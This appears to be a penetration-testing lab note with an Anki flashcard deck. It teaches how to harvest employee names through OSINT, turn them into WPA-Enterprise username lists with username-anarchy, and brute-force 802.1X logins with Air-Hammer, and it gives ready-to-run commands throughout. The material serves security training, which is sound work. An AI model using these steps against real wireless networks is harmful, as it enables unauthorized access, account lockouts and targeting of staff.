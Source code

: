 # Chain #15: Username Generation for WPA‑Enterprise

## Goal & Scope

Build high‑quality username lists for **WPA‑Enterprise (802.1X/EAP)** attacks:

- Gather names via OSINT (social media, metadata).
    
- Generate permutations with **username‑anarchy** (formats, countries, recognition).
    
- Confirm account format from EAP **Response/Identity** frames.
    
- Normalize usernames with domain prefix for attack tools.
    
- Execute online auth attempts with **Air‑Hammer**.
    

---

## Step 1 — Recon: Collect Names

**Social media mining** (e.g., LinkedIn) and **metadata extraction** (e.g., FOCA) reveal real‑world names used by the org. Save them to a plain list (e.g., `user-names.txt`).

---

## Step 2 — Generate Usernames (username‑anarchy)

Produce permutations from a name:

```bash
./username-anarchy David Smith
```

Sample output:

```
david
davidsmith
david.smith
…
dsmith
smith.david
```

List all supported formats:

```bash
./username-anarchy --list-formats
```

You’ll see plugin names like `first.last`, `f.last`, `lastf`, etc.

Generate by country conventions (plus common given/surnames):

```bash
./username-anarchy --country france --auto
```

Recognize an existing username’s format:

```bash
./username-anarchy --recognise j.smith
# → Plugin name: f.last
```

---

## Step 3 — Confirm Format from EAP Identity

Capture the EAP handshake (e.g., with a targeted connection attempt) and inspect in Wireshark. Look for **EAP → Response, Identity** to find `DOMAIN\username` (e.g., `HTB\cindy.walker`). Then:

```bash
./username-anarchy --recognise cindy.walker
# → Plugin name: first.last
```

Now you know the canonical format to use.

---

## Step 4 — Normalize an Entire List to One Format

Convert a raw names list into the identified format:

```bash
./username-anarchy --input-file ./user-names.txt --select-format first.last
# → sophia.rose, cindy.walker, …
```

Save to `usernames.txt`.

Prepend the **domain** (required by many WPA‑Enterprise realms):

```bash
#!/bin/bash
input_file="usernames.txt"
output_file="formatted_usernames.txt"
domain="HTB"
while IFS= read -r line; do
  echo "${domain}\\${line}" >> "$output_file"
done < "$input_file"
```

This produces lines like `HTB\sophia.rose` for attack tools.

---

## Step 5 — Perform Online Auth Attempts (Air‑Hammer)

Run against an SSID with your username list and a password wordlist:

```bash
python2 /opt/air-hammer/air-hammer.py \
  -i wlan1 -e HTB-Corp \
  -p /opt/wordlist.txt \
  -u formatted_usernames.txt
```

Target a specific user:

```bash
echo "HTB\sophia.rose" > user.txt
python2 /opt/air-hammer/air-hammer.py -i wlan1 -e HTB-Corp -p /opt/wordlist.txt -u user.txt
```

**Tip:** Use a **throttled** wordlist and respect legal/engagement constraints. Online attacks are noisy.

---

## Checklist

1. Mine names via OSINT and file metadata → `user-names.txt`.
    
2. Use `--recognise` or EAP Identity to confirm format.
    
3. Generate permutations with username‑anarchy; normalize with `--select-format`.
    
4. Prepend `DOMAIN\` to each username.
    
5. Test with Air‑Hammer (or similar EAP attack tooling).
    

---

## Anki Deck

```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

u15N7kQ2xA	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Why do WPA-Enterprise brute-force attacks require username lists?	Because 802.1X authentication verifies a presented identity (username) and password; you must know or guess valid usernames to attempt logins.	wifi
c49B1mV8sZ	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Name two reconnaissance sources for collecting real usernames.	Social media mining (e.g., LinkedIn) and document metadata extraction (e.g., with FOCA).	wifi
p83R2dJ6yM	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which tool generates multiple username permutations from a person’s name?	<code>username-anarchy</code>	wifi
m07H5fL9qE	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which <code>username-anarchy</code> command lists all supported username formats?	<code>./username-anarchy --list-formats</code>	wifi
s62T8cP1vK	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which <code>username-anarchy</code> command generates usernames using French conventions automatically?	<code>./username-anarchy --country france --auto</code>	wifi
q11W7aF3gD	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which <code>username-anarchy</code> command detects the format used by the username <code>j.smith</code>?	<code>./username-anarchy --recognise j.smith</code>	wifi
r58K3nD7tU	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Where in a capture do you find the identity presented during 802.1X/EAP authentication?	In Wireshark under EAP → Response, Identity (e.g., <code>DOMAIN\username</code>).	wifi
h92E4xC8bP	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which <code>username-anarchy</code> command normalizes a list of names in <code>user-names.txt</code> to the <code>first.last</code> format?	<code>./username-anarchy --input-file user-names.txt --select-format first.last</code>	wifi
k35M9jS1wR	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	What is the purpose of prepending <code>DOMAIN\</code> to each username?	Many WPA-Enterprise realms require <code>DOMAIN\username</code> format during EAP authentication.	wifi
x84Z2pV6nC	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which bash snippet prepends domain HTB to every username in <code>usernames.txt</code>, saving to <code>formatted_usernames.txt</code>?	<code>while read u; do echo "HTB\\\\$u"; done &lt; usernames.txt &gt; formatted_usernames.txt</code>	wifi
f27L1qH8sA	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which tool automates online EAP authentication attempts using username and password lists?	Air-Hammer	wifi
y63C5bN4eJ	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which Air-Hammer command uses interface <code>wlan1</code>, SSID <code>HTB-Corp</code>, wordlist <code>/opt/wordlist.txt</code>, and usernames from <code>formatted_usernames.txt</code>?	<code>python2 /opt/air-hammer/air-hammer.py -i wlan1 -e HTB-Corp -p /opt/wordlist.txt -u formatted_usernames.txt</code>	wifi
b46P7tG2oL	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	How do you target a single user (e.g., <code>HTB\sophia.rose</code>) with Air-Hammer?	Write it to <code>user.txt</code> and run Air-Hammer with <code>-u user.txt</code>.	wifi
z10S6vA3qT	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Why is <code>--recognise</code> useful after inspecting an EAP Response/Identity?	It confirms the exact plugin (format) so you can generate additional usernames consistently across the org.	wifi
a71J3uW9dX	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Give three common username format plugins used in enterprises.	<code>first.last</code>, <code>f.last</code>, <code>lastf</code> (plus variants like <code>flast</code>, <code>firstl</code>).	wifi
v52D8mK4rB	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	What operational risk comes with online username/password attempts against 802.1X?	They’re noisy (logs, lockouts, NAC alarms); must be rate-limited and authorized.	wifi
n29F6yE1uQ	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	What file should contain raw human names gathered from OSINT before formatting?	A plain list, e.g., <code>user-names.txt</code> (one name per line).	wifi
j88R1cV5pH	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which <code>awk</code> command converts a CSV of First,Last into lowercase <code>first.last</code> usernames in <code>usernames.txt</code>?	<code>awk -F, '{print tolower($1)"."tolower($2)}' people.csv &gt; usernames.txt</code>	wifi
w54H2aM7cS	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which <code>username-anarchy</code> option converts every input name to a specific plugin format (e.g., <code>first.last</code>)?	<code>--select-format &lt;plugin&gt;</code>	wifi
t66K9gB3yV	Basic (type in the answer)	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which <code>username-anarchy</code> command enumerates French-style usernames automatically?	<code>./username-anarchy --country france --auto</code>	wifi
g93U4pQ8eF	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Which field in Wireshark confirms the displayed identity during 802.1X?	The EAP “Response, Identity” frame (shows <code>DOMAIN\username</code>).	wifi
i21B7dT6lO	Basic	Ops::WiFi Gym::Chain 15: WPA-Enterprise Usernames	Why normalize all users to one canonical format before attacks?	Ensures consistency with the org’s directory convention so authentication attempts match real account names.	wifi
```